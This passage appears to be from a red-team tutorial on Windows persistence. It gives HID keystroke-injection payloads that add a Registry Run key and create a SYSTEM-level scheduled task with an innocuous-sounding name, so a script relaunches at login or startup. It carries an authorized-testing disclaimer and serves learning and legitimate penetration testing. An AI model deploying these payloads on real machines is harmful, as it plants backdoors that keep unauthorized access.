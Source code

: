 ###  **Red Team Persistence** (The Dark Side)

Now, let's talk about the other side of the coin. Red teamers use persistence to:
- Maintain access after initial compromise
- Establish command and control channels
- Create backdoors for future operations
- Test defensive capabilities

**Important Disclaimer:** This is for **authorized testing only**. If you're using this on systems you don't own or have explicit permission to test, you're not a red teamer — you're a criminal. Don't be that person.

---

## The Persistence Arsenal

### 1. **Registry Persistence** (The Classic)

The Windows Registry is like the brain of your operating system. It remembers everything, including what to run when the system starts. It's the digital equivalent of leaving sticky notes all over your house.

```bash
# Registry Run Key Persistence
ATTACKMODE HID
DELAY 2000
MOD r
DELAY 500
STRING reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "HappyFrog" /t REG_SZ /d "C:\scripts\frog_payload.bat" /f
ENTER
DELAY 1000
STRING exit
ENTER
```

**What this does:** Adds your script to the registry so it runs every time the user logs in. It's like setting an alarm clock that never stops.

### 2. **Scheduled Task Persistence** (The Sneaky One)

Scheduled tasks are like having a personal assistant who works 24/7. They can run your scripts at specific times, on specific events, or even when the system starts.

```bash
# Scheduled Task Persistence
ATTACKMODE HID
DELAY 2000
MOD r
DELAY 500
STRING cmd /c "schtasks /create /tn 'SystemMaintenance' /tr 'C:\scripts\maintenance.bat' /sc onstart /ru SYSTEM /f"
ENTER
DELAY 1000
STRING exit
ENTER
```
